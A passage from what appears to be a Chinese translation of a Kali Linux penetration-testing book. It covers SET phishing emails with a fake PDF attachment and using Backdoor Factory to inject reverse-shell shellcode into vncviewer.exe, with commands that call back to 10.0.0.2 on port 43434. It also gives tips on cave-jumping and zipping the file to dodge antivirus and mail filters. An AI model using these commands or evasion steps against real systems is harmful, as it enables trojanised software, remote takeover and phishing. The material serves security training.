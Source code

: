 为了测试系统，我选择将攻击发送到一个我控制的 Gmail 帐户。如果发送消息时出现错误，SET 不会返回到邮件发送程序部分。Google Mail 捕获了虚假的 PDF 文件，并发送了一个指向其安全页面的链接：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/8ad7cd15-7d83-4f80-bab7-3c1070ecc993.png)

使用不检查感染附件的服务器的电子邮件帐户。我们使用了`evilhacker@act23.com`，并将电子邮件发送到`kalibook@act23.com`，这起作用了：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/4c9f74d7-6cfe-431d-8be3-2b32c54f5793.png)

# 使用后门工厂来规避杀毒软件

这个利用代码在没有杀毒软件的 XP SP2 机器上运行良好，并且在任何没有安装 AV 的机器上都会运行良好，但在安装了基本默认 Windows 杀毒软件的 Windows 10 机器上效果较差。我们不得不关闭杀毒软件的实时检查功能，才能使电子邮件在没有错误的情况下读取，而杀毒软件则清除了我们的篡改文件。作为安全工程师，我们很高兴微软 Windows 10 拥有如此有效的反恶意软件功能。作为渗透测试人员，我们感到失望。

后门工厂将 shellcode 插入工作中的 EXE 文件，而不会对原始文件进行太多更改。您可以使用`/usr/share/windows-binaries`目录中的可执行文件，如下面的截图所示，或者任何其他没有内置保护的 Windows 二进制文件：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/28f499f6-38d8-4c5d-a6b7-98ee4b56d76b.png)

运行 Backdoor Factory 并在`10.0.0.2`上的端口`43434`创建一个远程 shell 的代码如下。跳洞选项将您的代码传播到可执行文件中的空白，以进一步混淆杀毒软件扫描：

```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp  
```

如果您在 shellcode 选择中出现错误，应用程序会显示您的选择：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/c25fd43e-5741-4d32-bb29-1b3ffa7e30af.png)

```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp_inline 
```

然后，后门工厂继续并提供选项，将 shellcode 注入二进制文件中的所有空白或洞：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/a5df754f-1f57-41b9-a382-f03992a1216f.png)

我们将选择 Cave 1：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/6d2fbe20-617e-428e-afeb-d6f2c5db0cf8.png)

`backdoored`目录位于根`home`目录`~/backdoored/`中，因此很容易找到。我们可以使用 SET 将这个篡改过的文件推送到大规模邮件中，但您可以只需从伪造的帐户发送电子邮件到 Windows 10 框，以查看它是否可以清除杀毒软件障碍。可执行文件必须被压缩以通过我们的邮件服务器上的过滤器，一旦它在 Windows 10 机器上解压缩，它就会被删除为恶意软件文件。

Windows 10 的默认杀毒软件发现了这个文件，就像它发现了 SET 中的其他文件一样。未打补丁的旧版本的 Windows 明显存在风险。

# 总结

在本章中，您已经看到了五种不同的方法来控制并在 Windows 机器上设置后门，从 Ncat 脚本编写，到 Metasploit Meterpreter 攻击，再到添加一个 Drop Box，再到使用 SET 发送钓鱼邮件，以及使用 Backdoor Factory 创建带有 shell 脚本后门的可执行文件。

在本章中，我们还学习了在各种设备上设置和使用跳板机。
